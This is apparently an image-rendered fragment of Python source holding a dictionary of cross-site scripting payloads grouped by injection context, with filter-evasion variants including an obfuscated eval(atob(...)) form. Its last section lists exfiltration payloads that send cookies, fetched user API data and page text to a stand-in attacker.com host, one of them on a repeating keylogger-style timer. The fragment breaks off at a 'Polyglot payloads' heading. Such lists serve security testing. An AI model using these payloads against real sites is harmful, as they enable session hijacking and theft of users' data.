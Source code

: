 ```python
                '<input onfocus=alert("XSS") autofocus>',
                '<select onfocus=alert("XSS") autofocus>',
                '<textarea onfocus=alert("XSS") autofocus>',
                '<keygen onfocus=alert("XSS") autofocus>',
                '<video><source onerror="alert(\'XSS\')">'
            ],
            'attribute_context': [
                '" onmouseover="alert(\'XSS\')" "',
                '\' onmouseover=\'alert("XSS")\' \'',
                '"><script>alert("XSS")</script>',
                '\';alert("XSS");//',
                '";alert("XSS");//',
                'javascript:alert("XSS")',
                'data:text/html,<script>alert("XSS")</script>'
            ],
            'javascript_context': [
                '\';alert("XSS");//',
                '\";alert("XSS");//',
                '</script><script>alert("XSS")</script>',
                '-alert("XSS")-',
                '+alert("XSS")+',
                '(alert("XSS"))',
                '[alert("XSS")]',
                '{alert("XSS")}'
            ],
            'css_context': [
                '</style><script>alert("XSS")</script>',
                'expression(alert("XSS"))',
                'url("javascript:alert(\'XSS\')")',
                '@import"javascript:alert(\'XSS\')"',
                'behavior:url(xss.htc)'
            ],
            'waf_bypass': [
                '<ScRiPt>alert("XSS")</ScRiPt>',
                '<script>alert(String.fromCharCode(88,83,83))</script>',
                '<script>alert(/XSS/)</script>',
                '<script>alert`XSS`</script>',
                '<script>eval(atob("YWxlcnQoIlhTUyIp"))</script>',
                '<svg><script>alert&#40;1&#41;</script>',
                '<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">',
                '<iframe src="data:text/html,&lt;script&gt;alert(1)&lt;/script&gt;">',
                '"><svg/onload=alert(/XSS/)>',
                '\'><svg/onload=alert(/XSS/)>'
            ],
            'advanced_payloads': [
                # Event handler variations
                '<img src=x onerror=alert(document.domain)>',
                '<svg onload=alert(document.cookie)>',
                '<iframe src="javascript:alert(localStorage.getItem(\'token\'))">',
                
                # DOM manipulation
                '<script>document.body.innerHTML="<h1>XSS</h1>"</script>',
                '<script>window.location="http://attacker.com/steal?cookie="+document.cookie</script>',
                
                # Advanced techniques
                '<script>fetch("/api/user").then(r=>r.json()).then(d=>fetch("http://attacker.com/",{method:"POST",body:JSON.stringify(d)}))</script>',
                '<script>setInterval(()=>fetch("http://attacker.com/keylog?keys="+btoa(document.body.innerText)),5000)</script>',
                
                # Polyglot payloads
```